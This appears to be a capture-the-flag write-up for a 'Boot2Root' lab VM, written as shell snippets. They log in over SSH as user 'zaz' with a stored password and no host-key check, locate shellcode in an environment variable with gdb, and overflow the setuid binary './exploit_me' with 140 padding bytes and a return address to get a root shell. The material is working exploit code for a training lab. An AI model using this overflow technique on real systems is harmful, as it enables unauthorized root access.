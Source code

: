 ## Find our VM IP
```shell
IP=`prlctl list -f | grep "Boot2Root" | awk '{print $3}'`
if [ -z "$IP" ]; then 
  IP=0.0.0.0
fi
echo $IP
```

Declare ssh_executor and scp_uploader
```shell
ssh_executor () {
  sshpass -p "$ssh_password" ssh -o StrictHostKeyChecking=no $ssh_login@$IP "$1" 2> /dev/null
}
scp_uploader () {
  sshpass -p "$ssh_password" scp $1 $ssh_login@$IP:$2 2> /dev/null
}
ssh_login="zaz"
ssh_password=`cat ../scripts/writeup2/zaz_password`
```

## Root shell

### Get SHELL_CODE address
```shell
scp_uploader "../scripts/writeup7/shell_code.py" "~/"
shell_code_address=$(echo -e "\n" | ssh_executor 'export SHELL_CODE=`python shell_code.py` && echo -e "q" | gdb ./exploit_me -q -ex "b* main" -ex "r" -ex "x/200s environ" | grep SHELL_CODE | cut -d ":" -f 1')
echo $shell_code_address
shell_code_address=`python3 ../scripts/writeup2/zaz.py 'address' $shell_code_address`
echo $shell_code_address
```

### A little magic
```shell
cmd="\$(python -c 'print \".\" * 140 + \"$shell_code_address\"')"
ssh_executor << EOF 
echo $cmd > shell_code
EOF
```

### Run root shell
```shell
ssh_executor 'export SHELL_CODE=`python shell_code.py` && (echo "id && whoami"; cat - ) | ./exploit_me `cat shell_code`'
```